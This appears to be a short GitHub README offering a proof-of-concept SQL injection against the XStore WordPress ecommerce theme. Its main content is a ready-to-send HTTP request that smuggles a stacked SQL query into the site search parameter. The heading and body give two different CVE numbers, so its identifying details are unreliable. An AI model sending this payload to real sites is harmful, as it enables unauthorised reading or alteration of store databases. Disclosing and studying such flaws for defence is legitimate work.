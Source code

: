 # WordPress-XStore-theme-SQL-Injection

## CVE-2024-33559 XStore theme-SQL Injection

CVE-2024-33551 is a SQL injection vulnerability found in 8theme XStore, an ecommerce platform built on WordPress. This vulnerability allows attackers to execute malicious SQL commands on the database, which can lead to data theft, deletion, or even alteration.

### Poc
```
POST /?s=%27%3B+SELECT+*+FROM+wp_posts%3B+-- HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```
